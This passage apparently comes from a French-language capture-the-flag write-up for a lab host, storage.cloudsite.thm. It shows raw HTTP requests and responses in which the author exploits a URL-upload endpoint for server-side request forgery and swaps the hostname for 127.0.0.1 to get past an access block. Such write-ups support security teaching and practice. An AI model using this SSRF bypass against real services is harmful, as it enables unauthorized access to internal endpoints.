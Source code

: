 ```
< HTTP/1.1 403 Forbidden
< Date: Fri, 14 Mar 2025 16:38:12 GMT
< Server: Apache/2.4.52 (Ubuntu)
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 27
< ETag: W/"1b-iBx/SnAbP76moSKyn7jijRK2KE8"
< 
* Connection #0 to host storage.cloudsite.thm left intact
{"message":"Access denied"}
```
J'ai un accès refusé, mais je peux upload depuis un URL, je vais tenter une SSRF (*Server Side Request Forgery*).
```
POST /api/store-url HTTP/1.1
Host: storage.cloudsite.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://storage.cloudsite.thm/dashboard/active
Content-Type: application/json
Content-Length: 47
Origin: http://storage.cloudsite.thm
Connection: keep-alive
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImJsYWJsYUB0ZXN0LmNvbSIsInN1YnNjcmlwdGlvbiI6ImFjdGl2ZSIsImlhdCI6MTc0MTk2OTc1OCwiZXhwIjoxNzQxOTczMzU4fQ.1y3OdontXbJqOngILwBhJ-qz0jQU_kTvZrMdIJIyc3k
Priority: u=0

{"url":"http://storage.cloudsite.thm/api/docs"}
```
Ca me l'upload bien, mais j'ai toujours un accès refusé....
```
HTTP/1.1 200 OK
Date: Fri, 14 Mar 2025 16:49:16 GMT
Server: Apache/2.4.52 (Ubuntu)
X-Powered-By: Express
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Fri, 14 Mar 2025 16:48:59 GMT
ETag: W/"1b-195958f1e38"
Content-Type: application/octet-stream
Content-Length: 27
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

{"message":"Access denied"}
```
On va test avec **127.0.0.1** au lieu de **cloudsite.thm** ce qui permettra surement de contourner le blocage
```
HTTP/1.1 200 OK
Date: Fri, 14 Mar 2025 16:51:07 GMT
Server: Apache/2.4.52 (Ubuntu)
X-Powered-By: Express
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Fri, 14 Mar 2025 16:50:57 GMT
ETag: W/"113-1959590ec30"
Content-Type: application/octet-stream
Content-Length: 275
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
```